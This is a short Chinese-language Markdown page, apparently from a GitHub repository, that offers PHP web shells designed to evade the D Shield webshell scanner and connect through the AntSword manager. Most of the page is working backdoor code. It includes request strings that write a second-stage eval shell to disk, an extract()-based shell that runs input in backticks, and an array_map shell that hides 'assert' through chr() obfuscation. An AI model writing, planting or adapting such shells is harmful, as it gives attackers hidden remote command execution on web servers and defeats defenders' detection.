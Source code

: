 
---





---

### 过D，但需要多次操作才可蚁剑连接

以下马都需要在挂上后执行二次操作，如：
```php
?shell=system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
?shell=system('echo ^<?php include("1.php");eval(shell); ?^>>2.php');
```
然后使用蚁剑去连接`2.PHP`。



**extract 变量**

```php
<?php  
$a=1;
$b=$_POST;
extract($b);
print_r(`$a`)
?>
```
![](img/2.png)

* 注意该马无法直接使用蚁剑连接。



**array_map函数过D盾 需PHP版本<7.1**

```php
<?php
function user()
{
$a123 =  chr(97).chr(115).chr(115).chr(101).chr(114).chr(116);
return ''.$a123;
}
$a123 = user();
$x123 =array($_GET['shell']);
array_map($a123,$a123 = $x123 );
?>

```
* 注意该马无法直接使用蚁剑连接。
